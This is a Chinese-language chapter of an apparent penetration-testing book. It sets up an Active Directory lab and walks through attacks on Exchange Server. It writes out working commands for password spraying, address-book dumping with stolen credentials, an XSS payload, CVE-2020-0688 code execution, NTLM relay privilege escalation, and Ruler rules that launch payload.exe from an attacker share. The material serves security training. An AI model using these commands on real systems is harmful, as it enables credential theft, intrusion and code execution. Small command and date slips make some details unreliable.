









# 第一章：准备实验室并攻击 Exchange 服务器

Windows 活动目录是大多数企业中运行和支持基于 Windows 的网络的事实标准。虽然集中管理带来了便利，但也引入了安全风险。在执行操作时，恶意行为者计划实现某些目标，破坏活动目录可以帮助他们达成这一目的。活动目录的默认配置远未达到安全标准。了解活动目录安全的最佳方式是，在安全环境中执行攻击，尝试检测并防止不必要的恶意活动。

本书的重点将放在活动目录杀伤链上，执行攻击并尝试检测和防止它们。本章将介绍如何为这些活动部署一个安全的操作环境。我们将在本书中使用这个实验室，之后会添加额外的服务，这些服务将在后续关于 **活动目录证书服务` (`ADCS**)、SQL 服务器和 **Windows 服务器更新服务` (`WSUS**) 以及 **系统中心配置管理器` (`SCCM**) 的章节中讨论。

我们的第一个实际目标将是微软 Exchange 服务器。它是一个复杂的协作产品，远不止一个电子邮件服务器。从安全的角度来看，它是一个有价值的目标，因为它是基础设施中一个至关重要的组件，并且可以从互联网访问。内部部署的 Exchange 与活动目录紧密相连，通常具有较高的权限。

本章将覆盖以下主要主题：

+   实验室架构与部署

+   活动目录杀伤链

+   为什么初始访问和主机相关的主题不予覆盖

+   攻击 Exchange 服务器

# 技术要求

在本章中，您需要访问以下内容：

+   VMware Workstation 或 Oracle VirtualBox，至少需要 16GB 的 RAM，10 个 CPU 核心，以及至少 115GB 的总空间（如果进行快照，则需要更多空间）

+   强烈建议使用基于 Linux 的主机操作系统

+   安装了相应虚拟化平台插件的 Vagrant 和 Ansible

# 实验室架构与部署

即使创建和部署测试实验室可能令人望而却步且耗时，它仍然是攻击模拟之前的重要准备步骤。MITRE ATT&CK 专门为此活动提供了一种策略，称为 **资源开发**。

有一些免费的但功能强大的自动化实验室部署项目可供选择。您可以根据工作站的资源选择其中任何一个，并自行复制漏洞。例如，有一个非常好的开源项目，由 Splunk 威胁研究团队维护，叫做 Splunk Attack Range[1]，您可以快速部署一个小型实验室来执行攻击模拟。然而，本书中我将使用另外两个项目。

本书中我将使用的第一个项目是由 Orange Cyberdefense[2] 创建的 GOADv2 实验室。要部署它，你需要一个基于 Linux 的主机操作系统，并安装 VMware Workstation 或 Oracle VirtualBox。也可以在 Proxmox 上部署该实验室，正如 *Mayfly* 在他的博客中所展示的[3]。部署过程简单，并且在仓库中的 `README.md` 文件里有详细描述。整个过程分为两部分，依据你的互联网连接速度，整个过程大约需要 3-4 小时。Vagrant 将创建虚拟机，Ansible playbook 将配置和部署所需的服务、用户和漏洞。为了加快部署速度，在 Vagrant 文件中，我们可以将所有 SRV 服务器的 `box_version` 变量更改为已经在列表中的版本，这样就只会下载两个镜像，并用于进一步的部署。我将使用安装在最新 Arch Linux 上的 VMware Workstation 16。按照安装指南操作后，你最终看到的信息应该如下所示：


图 1.1 – GOAD 实验室部署成功的结果

我将在某些章节中使用的第二个仓库是由 *Chris Long*[4] 创建的令人印象深刻的 DetectionLab 项目。不幸的是，它已经不再维护，但它仍然非常适合我们的目的。这个实验室的优势在于它提供了多种部署选项，包括云平台和所有现代裸机虚拟化程序。此外，这个实验室已经为我们安装了检测工具（Sysmon、Velociraptor、Microsoft ATA 等）。安装过程也很简单。准备脚本会帮助识别缺少的软件包，Vagrant 会完成剩下的工作。整体过程大约需要 1-2 小时，取决于你的网络和计算机性能。以下截图显示了预部署脚本成功执行的结果，这意味着我们可以开始我们的 DetectionLab 了：



图 1.2 – 成功执行 prepare.sh 的结果

以下 GOADv2 项目的图表来自实验室创建者的 GitHub 仓库：



图 1.3 – GOADv2 概览

这个实验室有两个林（`sevenkingdoms.local` 和 **essos.local**），它们之间建立了信任关系，并且有父子域（`sevenkingdoms.local` 和 **north.sevenkingdoms.local**）。Active Directory 信任可以有效地让信任域中的实体安全地访问受信域的资源。Microsoft SQL Server 将在两个林中部署，并在实例之间建立信任连接。我们还将在其中一台服务器上安装 `Internet Information Services`（**IIS**）。ADCS 提供了所需的数字证书基础设施，供公司使用公钥加密技术。这些证书可以用于多种用途，比如身份验证、加密以及签署文档和/或消息。我们实验室中有一台专门的服务器来承担这个角色，届时我们将能够模拟对 ADCS 的攻击。大多数攻击场景已经由实验室创建者在环境中引入，但如果我们需要添加或调整某些内容，将会特别提到，并提供逐步指南——例如，安装 WebClient 或部署 **组管理服务账户**（**gMSAs**）。

下一节将介绍攻击任何目标的常见方法，包括 Active Directory。

# Active Directory 杀链

什么是 Active Directory？用简单的话来说，它是一个层次结构的对象信息存储。其主要优点之一是，Active Directory 允许集中管理和身份验证。接下来，我们简要讨论一下什么是网络攻击杀链。这个框架由洛克希德·马丁公司开发，具有军事背景。它是一个识别攻击结构的概念。我们可以根据 *infosecn1nja* 在 GitHub 上的图示，将网络攻击杀链的概念应用到 Active Directory。它包含几个步骤，但始终遵循相同的循环——**侦察**，**妥协**，**横向移动**——只是拥有更多的特权访问：



图 1.4 – Active Directory 杀链

本书的重点仅为基于 Windows 的基础设施及其服务，因此诸如主机上的本地权限提升、初始访问和外部侦察等主题超出了本书的范围。我将在本章的专门部分简要解释这一决定背后的原因。以下是将在相应章节中讨论的主题列表：

+   Exchange 服务器

+   防御规避

+   内部侦察

+   凭证访问

+   横向移动

+   权限提升

+   持久性

+   AD CS

+   Microsoft SQL Server

+   WSUS

+   Microsoft SCCM

本书的重点是妥协 Active Directory 环境和基于 Windows 的常见服务，而非红队操作。原因是红队操作通常具有与业务相关的目标，而不是寻找和利用 Active Directory 及其服务中的所有可能漏洞。需要提到的是，根据目标环境、范围以及在初始访问中获得的权限级别，并非总是需要妥协每个目标。例如，获取公司的财务数据并不需要域管理员权限，但在某些情况下，这些权限可能会有所帮助。我们将讨论攻击检测和可能的预防措施，以及进攻性**操作安全**（**OpSec**）。简而言之，指的是你在活动中被对手发现的可能性。这是一把双刃剑，意味着它既适用于进攻行动，也适用于防御行动及欺骗对手的方式。

# 为什么我们不会涵盖初始访问和主机相关的主题

初始访问是妥协目标环境的一个至关重要的早期步骤。然而，本书不会涵盖这一部分，原因如下。老实说，这个主题既广泛又深入，涉及 IT 各个领域以及心理学的跨领域知识，因此它需要一本独立的书籍。此外，在此类书籍发布时，很可能一半的攻击向量会被安全解决方案（如**端点检测与响应**（**EDR**））的实施所消除，或者被蓝队的全面检测能力所覆盖。原因在于，这个领域发展迅速，充满了未发布的私人研究。总的来说，要获得稳定的初始访问权限，需关注三个主要主题——一个具有韧性和安全性的攻击基础设施、具备必要功能的隐蔽工具以及成功的防御规避。

为了避免在手动部署过程中出现痛苦的错误，使用自动化工具，如 Terraform 和 Ansible，可以帮助构建一个具有韧性的攻击者基础设施。但这需要投入时间，并且要求具备脚本编写和系统管理员的技能。开始了解这一主题的最佳资源之一是 GitHub 上的维基[6]。如果钓鱼和过滤代理是攻击的一部分，基础设施需要经过适当设计，配备多种协议的重定向器，确保安全并加固，并且正确分类。

隐蔽工具、规避技术和检测之间是一场永无止境的斗争，在这场斗争中，熟练的蓝队、SOC 和 EDR/安全供应商与进攻性安全研究人员和红队相互竞争。*Jordan Potti*在关于红队在 EDR 对抗中努力和投资回报的精彩笔记[7]，也是我不讨论这一话题并专注于基于 Windows 的基础设施和 Active Directory 的原因之一。我认为不可能编写一本涵盖所有话题的全面红队书籍，深入探讨每一个方面。

由于本书聚焦于 Active Directory 的安全概念，我们将采用**假设已被突破**的方法。2019 年，Red Siege 创建了一个精彩的演示文稿来解释这一模型[8]。在我们的案例中，我们假设已经突破了一个标准的域用户账户。所有进一步的步骤将在该用户的上下文中进行。我们还假设最初的入侵是隐蔽的，并未被 EDR/杀毒软件或任何其他安全产品检测到。然而，所有进一步的活动，包括网络流量和生成的事件日志，都被视为蓝队在监控中。书中的后续部分，如果某些活动需要特定的权限，将会特别提到。

我们的下一部分将最终变得更加实际和动手操作。我们将讨论并复制针对 Exchange Server 的攻击场景。

# 攻击 Exchange Server

Exchange Server 是由微软开发的协作服务器。尽管越来越多的公司正在迁移到 O365 云，但仍然有很大的可能性会遇到本地部署的 Exchange。Exchange 为最终用户提供了多个有用的功能，但也非常难以确保它们的安全。近年来，许多研究揭示了其不同组件中的关键漏洞。此外，微软发布的补丁并未总是完全修复这些漏洞，这意味着攻击者通过逆向工程补丁，尝试开发零日漏洞，并能够找到合适的绕过方法。考虑到有时企业无法及时应对这种快速变化的情况，被攻击的可能性非常高。

那么攻击者入侵 Exchange 的好处是什么呢？首先，成功控制后可以访问此服务器上每个用户的邮箱。接下来，它可能演变成一次内部钓鱼活动、敏感数据泄露和邮件中的密码收集。其次，Exchange 服务账户可能具有高权限，包括域管理员权限，从而使得完全接管域成为可能。

为了评估 Exchange Server 的安全性，我们可以将 Exchange Server 添加到 DetectionLab 中；然而，您需要在自己端进行部署。要启动 Exchange Server，只需运行以下命令，假设您使用的是 Linux：

```
cd /opt/DetectionLab/Vagrant/Exchange
vagrant up exchange
```

如果在部署过程中遇到任何问题，你可以方便地在`C:\exchange2016`文件夹中找到日志：



图 1.5 – Exchange 部署的日志位置

Exchange 允许通过`Exchange Web Services`（**EWS**）、`Exchange ActiveSync`（**EAS**）、Outlook Anywhere 和 MAPI over HTTP 等协议进行远程访问。AutoDiscover 服务帮助检索 Exchange 配置、邮箱设置、支持的协议和服务 URL。你可以在`autodiscover.xml`文件中找到这些信息，该文件位于`autodiscover`虚拟目录中。`Outlook Web Application`（**OWA**）是一个简化版的基于 Web 的邮件客户端。用户仅需通过浏览器即可访问此客户端，而不必安装 Outlook。**全局地址列表**（**GAL**）是 Active Directory 林中每个启用邮件的对象的列表。我们还将讨论两个概念：Outlook 规则和表单。规则是 Outlook for Windows 在处理收发电子邮件时自动执行的操作。我们设置触发器和动作。服务器端规则首先执行，然后是客户端规则。Outlook 表单为用户和/或组织提供电子邮件定制选项，例如自动填写某些字段或模板文本。

在本节中，我们将讨论用户枚举和密码喷射的工具与技术；从 GAL 和**离线地址簿**（**OAB**）或使用**名称服务提供接口**（**NSPI**）提取电子邮件地址；公共的点击式漏洞利用；敏感数据的提取；以及通过客户端软件在目标环境中建立立足点的一些技术。由同一家公司创建的攻防大纲（GOADv2 实验室）中，提供了一个出色的攻击 Exchange 边界的思维导图，并且已上传至 GitHub[9]。

我们的第一个实际任务是枚举用户，并通过执行密码喷射攻击尝试获得一组有效的凭证。

## 用户枚举和密码喷射攻击

密码喷洒攻击需要用户枚举。首先，我们需要创建一个可能的用户名列表并枚举 Active Directory 域名。其次，我们需要通过 OWA 枚举现有用户，然后进行密码喷洒攻击。为了执行这些操作，我们将使用 `MailSniper` 工具[10]。第一步可以通过使用 **开源情报` (`OSINT**) 技术完成，通过进行 DNS 侦察，利用搜索引擎中的高级搜索运算符并抓取社交媒体和公司的外部资源。有许多开源工具可以在开发生命周期的不同阶段执行这些活动。如果外部网站上发布了电子邮件地址，攻击者可能会幸运地找到像 `surname.name@company.com` 或 `name.surname@company.com` 这样的电子邮件地址格式。此外，还有一个网站 [`hunter.io/`](https://hunter.io/)，可以帮助找出公司中最常用的电子邮件格式。如果只有像 info、security、GDPR 这样的通用地址，那么我们可以尝试使用像 `namemash`[11] 和/或 `EmailAddressMangler`[12] 这样的脚本，这些脚本可以创建所有可能的用户名排列列表。完成此步骤后，攻击者将拥有一个需要验证的潜在用户列表。现在，我们需要借助 `MailSniper` 中的 `DomainHarvestOWA` 功能来找出域名。它有两种获取正确域名的选项。一种是从服务器在发送请求到 [`mail.target.com/autodiscover/Autodiscover.xml`](https://mail.target.com/autodiscover/Autodiscover.xml) 和 [`mail.target.com/EWS/Exchange.asmx`](https://mail.target.com/EWS/Exchange.asmx) 后返回的 `WWW-Authenticate` 头中提取名称。第二种选择是使用提供的域名列表进行暴力破解，通过将请求发送到 https://mail.target.com/owa/ 并计算响应时间。无效域名的请求响应时间比有效域名的请求响应时间要短得多。显然，用户名不会影响延迟。让我们尝试这个侦察活动：

```
Invoke-DomainHarvestOWA -ExchHostname 192.168.56.106
```

执行上述命令的结果可以在以下截图中找到：


图 1.6 – 发现邮件服务器的 FQDN

确定域名后，我们的下一步是用户枚举。这是一种纯粹基于时间的枚举技术。`MailSniper` 计算身份验证尝试响应之间的时间差。当找到有效的用户名时，响应时间将显著缩短：

```
Invoke-UsernameHarvestOWA -UserList .\user.txt -ExchHostname 192.168.56.106 -Domain windomain.local -OutFile found.txt
```

枚举结果可以在以下截图中找到：



图 1.7 – 使用 OWA 成功进行用户枚举

我们成功找到两个用户——`Administrator`和`vinegrep`。现在，让我们对 OWA 执行密码喷射攻击。在这个场景中，工具会针对提供的用户名列表喷射一个密码：

```
Invoke-PasswordSprayOWA -ExchHostname 192.168.56.106 -UserList .\found.txt -Password Qwerty123! -OutFile creds.txt
```

我们成功获取了用户`vinegrep`的有效凭证集：


图 1.8 – 找到有效的凭证集，用户为 vinegrep

也可以使用`MailSniper`的`Invoke-PasswordSprayEWS`功能对 EWS 执行密码喷射攻击。需要注意的是，如果**多因素身份验证**（**MFA**）被强制执行，那么获得的有效凭证集将无法授予访问权限。MFA 将要求提供额外的身份验证因素，这些因素可以是从手机上的身份验证应用程序到 USB 安全令牌或其他类型的密钥。像任何安全措施一样，如果 MFA 配置错误，或者攻击者诱使用户执行身份验证的第二步而不是自己完成，MFA 也可以被绕过。

下一步是充分利用这组有效的凭证和邮箱访问权限。在接下来的章节中，我们将学习如何转储地址簿并外泄敏感数据。

## 转储和外泄

假设多因素身份验证（MFA）已经被绕过或未被强制执行，并且攻击者成功登录了受害者的邮箱，接下来的步骤是什么？有几个可能的场景。首先，攻击者可以浏览电子邮件；也许能找到一些敏感的内部信息，包括密码、证书、文档和端点地址。在进行此操作之前，作为安全专家，务必确保符合参与规则。你最不希望做的事情就是未授权访问客户的机密数据。

其次，运行内部钓鱼攻击。内部电子邮件处理规则在安全性上可能更宽松——例如，允许附件。此外，这样的攻击活动成功率更高，因为用户更有可能打开附件或点击同事或经理发来的链接。但这仍然不能保证成功，因为我们无法控制非电子邮件媒介。我们可以在受害者的同事正在现实生活中讨论某事时向他们发送电子邮件。然而，也需要考虑道德因素。根据目标公司的文化和规则，用户可能会因此失业。

其次，我们可以提取公司的所有电子邮件地址以及一些关于 Active Directory 的信息，而无需泄露任何邮箱内容。这可以通过转储 GAL 或 OAB，或者通过滥用 NSPI 来实现。让我们通过一个被攻破的账户使用`MailSniper`提取 GAL。该模块连接到 OWA，并利用`FindPeople`方法收集电子邮件地址。此方法适用于 Exchange 2013 及更高版本，并需要从`GetPeopleFilters` URL 获取`AddressListId`值：

```
Get-GlobalAddressList -ExchHostname 192.168.56.106 -UserName windomain.local\vinegrep -Password Qwerty123! -OutFile gal.txt
```

成功提取 GAL 的截图如下所示：


图 1.9 – GAL 提取

使用新发现的邮件地址，我们可以重新发起密码喷洒攻击。

另一种导出所有 Exchange 用户邮件地址的方法是下载 OAB 文件。一个重要的注意事项是，必须提取现有用户的主邮件地址，并且需要有效的域帐户。步骤如下：

1.  向`autodiscover`端点发出 web 请求以检索`autodiscover.xml`。

1.  在响应中搜索`OABUrl`值，它是指向 OAB 文件目录的路径。不要忽视其他有用的信息，如域用户的 SID 和域控制器名称。

1.  使用`OABUrl`值请求`oab.xml`，以列出 OAB 文件名。

1.  在`oab.xml`文件中，搜索包含`data`且具有`.****lzx`扩展名的文件名。

1.  下载此文件并解析它。

我们将需要一台 Linux 机器来运行以下命令。为了自动化 OABUrl 提取，我们将使用 GitHub 上的脚本[13]。该脚本帮助完成第 1 和第 2 步。结果可以在以下截图中找到：


图 1.10 – OABUrl 提取

接下来，我们将复制`oab.xml`文件并解析它，以找到包含`data`字样的文件名的`.lzx`文件的 URL。这就是我们的 GAL OAB 文件。最后一步，我们将保存该文件并解析其中的邮件地址：

```
curl -k --ntlm -u 'windomain.local\vinegrep:Qwerty123!' https://exchange.windomain.local/OAB/e79472bb-2dd6-4ffb-9e02-8dd42510bb1b/oab.xml > oab.xml
cat oab.xml | grep '.lzx' | grep data
curl -k --ntlm -u 'windomain.local\vinegrep:Qwerty123!' https://exchange.windomain.local/OAB/e79472bb-2dd6-4ffb-9e02-8dd42510bb1b/007215f1-4ab8-4ed2-a503-4cd82b0d8093-data-1.lzx > oab.lzx
strings oab.txt | egrep -o "[a-zA-Z0-9._%+-]+@[a-zA-Z0-9.-]+\.[a-zA-Z]{2,5}" | sort -u
```

可以在以下截图中看到从 OAB 提取的 GAL 邮件：


图 1.11 – 使用 OAB 提取 GAL 邮件

通过 NSPI 导出通讯簿的另一种方式是由*Positive Technologies*在他们的研究中发现的[14]。一个名为`Exchanger`的工具现在是 Impacket 的一部分，因此我们可以直接使用它，无需额外安装。第一步，我们列出表格以获取 GUID，然后使用 GUID 导出有前景的表格：

```
python3 exchanger.py windomain.local/vinegrep:'Qwerty123!'@exchange.windomain.local -debug nspi list-tables -count
python3 exchanger.py windomain.local/vinegrep:'Qwerty123!'@exchange.windomain.local -debug nspi dump-tables -guid 715d9794-704c-4fe3-a038-24f149747b2c -lookup-type EXTENDED
```

导出结果可以在以下截图中看到：


图 1.12 – 通过 NSPI 根据 GUID 导出通讯簿

现在，我们可以使用提取的邮件地址重新发起密码喷洒攻击。我们还可以使用该工具通过 GUID 导出 Active Directory 对象。请注意，首先我们需要获取 GUID，例如通过 PowerShell 命令，然后将其传递给 Exchanger：

```
Get-ADComputer -Identity win10.ObjectGUID
python3 exchanger.py windomain.local/vinegrep:'Qwerty123!'@exchange.windomain.local -debug nspi guid-known -guid b1422ca3-66c7-4d6b-b7f4-43c73e9705b2 -lookup-type EXTENDED
```

执行 Exchanger 命令后的结果可以在以下截图中看到：


图 1.13 – 通过 NSPI 根据 GUID 导出 Active Directory 对象

在数据外泄的讨论中，我们无法不提到一个名为`PEAS`[15]的项目。该工具基于 MWR 研究[16]开发，用于在 ActiveSync 服务器上运行命令。其思路是通过 Exchange Server 枚举并访问域中的文件共享。该工具的主要缺点是，必须在服务器和客户端账户上启用 ActiveSync。此外，ActiveSync 配置应该允许 UNC 路径，并且不限制 SMB 服务器。

远程危害 Exchange 的另一种方式是通过可利用的漏洞。近年来，发现并公开了不少关键漏洞。在下一部分，我们将介绍已公开的利用方式。

## Zero2Hero 利用

在这一部分，我们将讨论`Proxy*` 漏洞家族，CVE-2020-0688 和 `PrivExchange`（CVE-2018-8581）。它们的根本原因各不相同，但都证明了 Exchange 是一个极其复杂的软件，拥有广泛的攻击面。

我们将从 `Proxy*` 漏洞家族开始讨论。这类漏洞出现在对手和研究人员将重点转移到新的攻击面——**客户端访问服务**（**CAS**）时。我们将从 Exchange 历史上最著名的漏洞——`ProxyLogon`[17]开始。*Orange Tsai* 来自 DEVCORE 发现了两个漏洞（CVE-2021-26855 和 CVE-2021-27065），这两个漏洞结合起来可以绕过身份验证并实现远程代码执行。

CVE-2021-26855 是一种**服务器端请求伪造**（**SSRF**），允许绕过身份验证并发送具有最高权限的请求。当用户向 Exchange 前端发送请求时，该请求会通过 HTTP 代理模块流动，然后由该模块评估并将其发送到后端。通过将 X-BEResource cookie 值设置为所需的后端 URL，可以伪造服务器端请求。利用此漏洞有两种场景。第一种是访问电子邮件，但需要目标环境中至少有两台 Exchange 服务器。另一种是身份验证到 **Exchange 控制面板**（**ECP**），然后上传 web shell（CVE-2021-27065 和 CVE-2021-26858）。一个包含逐步说明和检测的优秀手册已由*BI.ZONE*[18]发布。

CVE-2021-27065 是一种身份验证后任意文件写入漏洞。简而言之，攻击者登录到 ECP，然后在 OAB 虚拟目录中，通过插入 web shell 代码编辑**外部 URL**字段，并请求重置该目录以保存 web shell。

为了检查 Exchange 是否存在漏洞，我们可以利用 Metasploit 的一个模块——`auxiliary/scanner/http/exchange_proxylogon`。扫描结果如下：


图 1.14 – Exchange 存在 ProxyLogon 漏洞

对于可靠的利用，我们可以使用 Metasploit 中的利用——`exploit/windows/http/exchange_proxylogon_rce`。我们只需要一个有效的邮箱地址，仅此而已。利用结果如下所示：



图 1.15 – ProxyLogon 漏洞的利用

现在我们来讨论`ProxyOracle`[19]，它由 CVE-2021-31195（反射型跨站脚本攻击）和 CVE-2021-31196（Exchange Cookie 解析中的填充 Oracle 攻击）漏洞组成，这些漏洞允许从 cookie 中以明文形式恢复受害者的用户名和密码。为了检查目标安装是否存在漏洞（在我们的案例中是 IP 地址为`192.168.56.106`的实验室中的 Exchange Server），可以尝试在浏览器地址栏中放入此有效载荷：

```
https://192.168.56.106/owa/auth/frowny.aspx?app=people&et=ServerError&esrc=MasterPage&te=\&refurl=}}};alert(document.domain)//
```

如果你看到弹出警告框，如下图所示，那就意味着你找到了一个易受攻击的目标：


图 1.16 – Exchange Server 中的反射型 XSS 是成功利用 ProxyOracle 所必需的

接下来是我们列表中的另一个预认证 RCE 漏洞——`ProxyShell`[20]。它链式利用了三个漏洞：CVE-2021-34473（预认证路径混淆，导致**访问控制列表**（**ACL**）绕过），CVE-2021-34523（Exchange PowerShell 后端的特权提升），以及 CVE-2021-31207（认证后任意文件写入）。

简而言之，第一个漏洞利用了错误的 URL 标准化过程，以便以 Exchange 机器账户身份访问任意后端 URL。第二个漏洞通过在`X-Rps-CAT`请求参数中放入 Exchange 管理员信息，实现特权提升，该参数用于在`X-CommonAccessToken`头缺失时恢复用户身份。第三个漏洞则是通过 Exchange PowerShell 命令写入 shell。

Metasploit 同样为我们提供了支持，利用——`exploit/windows/http/exchange_proxyshell_rce`。利用结果如下：



图 1.17 – ProxyShell 成功利用

现在是时候讨论`ProxyNotShell`[21]漏洞了。它与 ProxyShell 相似，由一对漏洞组成，分别是 SSRF（CVE-2022–41040）和通过 PowerShell 的 RCE（CVE-2022–41082）。这次的区别在于，攻击者需要经过认证。我们在 Metasploit 中同样可以找到一个利用——`exploit/windows/http/exchange_proxynotshell_rce`。需要注意的是，Metasploit 中的这个利用仅适用于 Exchange 2019。我们可以看到在我们的环境中运行后的结果如下：


图 1.18 – 由于 Exchange 版本问题，ProxyNotShell 利用被中止

最后，我们将简要讨论 `ProxyRelay`[22] 和 `ProxyNotRelay`[23]。第一个漏洞是对另一个 Exchange 服务器（没有 CVE）、后台（CVE-2022-21979）、前端（CVE-2021-33768）或 Windows DCOM（CVE-2021-26414）的中继攻击。其思路与本书后续将讨论的其他强制认证和中继攻击相同。ProxyNotRelay 不是一个独立的漏洞，而是 ProxyRelay 和 ProxyNotShell 的结合体。

现在，我们将讨论两个较老的漏洞——CVE-2020-0688 和 PrivExchange（CVE-2018-8581）。虽然你在实际中遇到它们的可能性很小，但这部分内容的目的是展示其他的攻击面。

CVE-2020-0688[24] 允许经过身份验证的攻击者由于 Exchange 安装过程中使用的固定加密密钥执行任意代码。让我们深入了解这个漏洞的细节。该漏洞存在于 **Exchange 控制面板**（**ECP**）中。`validationKey` 和 `decryptionKey` 的值应当在每次安装时随机生成。这些密钥为 `ViewState` 提供安全保障，`ViewState` 是一种在 ASP.NET Web 应用程序中保存页面和控制值的方法。一个重要的警告是，`ViewState` 会被序列化并存储在客户端。什么是序列化？简单来说，它是将复杂数据转化为字节序列的过程，以便能够发送或存储，并保留其状态。如果攻击者能够通过提供恶意值来操纵这些数据，在某些情况下，服务器端的不安全反序列化可能导致 RCE（远程代码执行）。

登录 ECP 后，攻击者通过浏览器和开发者工具收集 `ViewStateUserKey`（来自 `ASP.NET_SessionID` cookie）和登录页面中的 `__VIEWSTATEGENERATOR` 值。`validationkey` 值是已知的（**CB2721ABDAF8E9DC516D621D8B8BF13A2C9E8689A25303BF**）。为了生成恶意载荷，我们将使用一个叫做 `ysoserial.net`[25] 的工具。这个工具包含了在常见库中发现的已知小工具链。小工具是库代码中存在的代码片段，可以帮助攻击者通过逐个执行来触发恶意载荷。这个漏洞使用了 `TextFormattingRunProperties` 库。我们可以运行以下命令在 `C:\` 创建文件：

```
PowerShell.exe -ExecutionPolicy Bypass -File .\CVE-2020-0688.ps1 -Url https://192.168.56.106 -Username windomain\vinegrep -Password Qwerty123! -Command 'powershell whoami > C:/whoami.txt' -YsoserialPath .\ysoserial\ysoserial.exe
```

执行结果如下：



图 1.19 – CVE-2020-0688 成功利用

文件创建在 `C:\`。



图 1.20 – 文件创建在 C:\，并包含 whoami 命令的输出

第二个漏洞需要三个条件，称为`PrivExchange`[26]。第一个条件是 Exchange 在域中的权限过高。`Exchange Windows Permissions`组在域对象上具有`WriteDacl`权限，这使攻击者能够获得`DCSync`权限。`DCSync`是一项允许你同步域中所有哈希值的特权。通常，这一特权由域控制器在复制过程中使用。攻击者只需请求一个域控制器发送哈希值以进行同步。

第二个条件是机器账户的 NTLM 中继可能性，第三个条件是攻击者可以强制 Exchange 通过`PushSubscription`功能对监听器进行身份验证。我们将在*第五章*中更详细地讨论中继问题。

让我们通过使用`ntlmrelayx`工具和`privexchange`漏洞[27]来执行攻击：

```
python privexchange.py -ah 192.168.56.100 exchange.windomain.local -u vinegrep -d windomain.local
ntlmrelayx.py -t ldap://192.168.56.102 --escalate-user vinegrep
```

命令的结果如下。值得一提的是，用户应在 Exchange Server 上有一个邮箱：


图 1.21 – PushSubscription API 调用成功

由于我们已部署 Exchange Server 2016 CU12，因此它不易受到此攻击。Microsoft 移除了在发送通知时 Exchange 的自动身份验证功能。此外，Exchange 权限也被降低了。

下一部分将讨论通过 Outlook 规则、表单和主页获取初步立足点的方法。

## 获取立足点

在本节中，我们将讨论在邮箱被攻破后如何通过规则、表单和文件夹主页实现远程代码执行（RCE）的方法。如果 Outlook 没有被修补，这些方法仍然有效。需要注意的是，我们讨论的是 Outlook 中的客户端规则。

让我们从 Outlook 规则[28]开始。规则存储在 Exchange 服务器中，新的 Outlook 实例会接收所有现有的规则。我们关注的是规则的动作部分及其触发条件。当我们创建规则时，有两个动作看起来很有前景：启动应用程序和运行脚本。要执行攻击，我们需要有效的凭据、启用的 MAPI over HTTP，并且需要将恶意文件放置在磁盘上或通过 UNC 路径（也可以使用 WebDAV）访问。此攻击在已修补的 Outlook 2016 及更高版本上无法使用。为了执行此攻击，我们可以使用一个名为 Ruler[29]的工具。以下命令将在 30 秒后创建并触发规则：

```
./ruler -u vinegrep -p 'Qwerty123!' -d windomain.local -e vinegrep@windomain.local -k --url https://192.168.56.106/autodiscover/autodiscover.xml --verbose –-debug add --trigger "vinegrep" --name evil --location \\\\192.168.56.100:8000\\payload.exe --send
```

规则已成功创建：


图 1.22 – 创建规则

有两个重要的注意事项：我们不能提供命令行参数，且需要允许外发的 WebDAV 流量。此外，在 2013 年 6 月的 Microsoft 补丁（KB3191938）更新之后，Outlook[30] 默认禁用了同时运行应用程序和脚本的规则。

接下来，我们将讨论 Outlook 表单[31]。它是在微软杀死规则向量后引入的。其思想是我们可以创建一个内部包含 VBScript 代码的自定义表单。幸运的是，这个脚本引擎与 VBA 宏脚本引擎是分开的，因此禁用宏并不会起作用。为了远程触发表单，我们需要发送一个正确的邮件消息类型。我们需要在 Outlook 中创建相同的表单。这项技术是实现持久化的好方法。即使受害者更改了密码，我们也可以只发送一封电子邮件并获得我们的 Shell。要运行此攻击，我们可以再次使用标尺：

```
./ruler -e vinegrep@windomain.local form add --suffix evil --input /tmp/command.txt --send
./ruler -e vinegrep@windomain.local form send --prefix evil
```

2017 年 9 月，当 Outlook 的 KB4011091 更新[32]发布时，定制表单脚本向量被摧毁。

有一个第三个向量需要讨论，称为 Outlook 主页[33]。主页允许我们通过指定一个 URL，当文件夹被打开时加载并显示该 URL，来自定义任何文件夹的默认视图。代码执行来自`OutlookViewCtl` CLSID（**0006F063-0000-0000-C000-000000000046**），它作为对象嵌入并可以在`CreateObject`方法中使用。我们需要做的就是创建我们自定义的主页，并借助标尺为用户设置它：

```
./ruler -u vinegrep -p 'Qwerty123!' -d windomain.local -e vinegrep@windomain.local -k --url https://192.168.56.106/autodiscover/autodiscover.xml --verbose --debug homepage add --url http://192.168.56.106/homepage.xhtml
```

命令执行的结果可以在以下截图中看到：


图 1.23 – 设置 Outlook 主页

微软在 2017 年 10 月通过 KB4011162 更新[34]完全删除了这个向量的主页功能。减少攻击面是解决问题的最佳方法。

在本节中，我们讨论了针对 Exchange Server 的不同攻击向量。为了缓解密码喷洒攻击，必须使用多因素认证（MFA）和适当的登录监控。所有 RCE 漏洞迟早都会收到补丁。还需要修补客户端软件，因为它可以被滥用进行横向移动和持久化。

# 总结

在本章中，我们为未来的活动部署了我们的实验室。我们很幸运地有两个杰出的免费项目可用于培训和研究。之后，我们讨论了 Active Directory 的攻击链、攻击目标环境的关键步骤，以及什么是 OpSec。然后，我们深入探讨了假设漏洞模型，展示了需要克服的重大障碍，以实现稳定的初步访问。我们讨论了三种针对 Exchange Server 的主要攻击向量：凭证访问、Zero2Hero 漏洞利用和客户端软件滥用。在下一章中，我们将探讨防御规避主题的皮毛。这是一个广泛且深入的话题，最终你会发现它归结为规则*了解* *你的工具*。

# 进一步阅读

以下资源供进一步学习，将帮助你更深入了解本章中涵盖的攻击：

1.  Splunk 攻击范围 – [`github.com/splunk/attack_range`](https://github.com/splunk/attack_range)

1.  Orange Cyberdefense GOADv2 – [`github.com/Orange-Cyberdefense/GOAD`](https://github.com/Orange-Cyberdefense/GOAD)

1.  在 Proxmox 上部署 GOADv2 – [`mayfly277.github.io/categories/proxmox/`](https://mayfly277.github.io/categories/proxmox/)

1.  DetectionLab 项目 – [`www.detectionlab.network/`](https://www.detectionlab.network/)

1.  Active Directory 杀链图 – [`github.com/infosecn1nja/AD-Attack-Defense`](https://github.com/infosecn1nja/AD-Attack-Defense)

1.  红队基础设施 Wiki – [`github.com/bluscreenofjeff/Red-Team-Infrastructure-Wiki`](https://github.com/bluscreenofjeff/Red-Team-Infrastructure-Wiki)

1.  EDR 绕过团队 – [`dispatch.redteams.fyi/red-team-edr-bypass-team/`](https://dispatch.redteams.fyi/red-team-edr-bypass-team/)

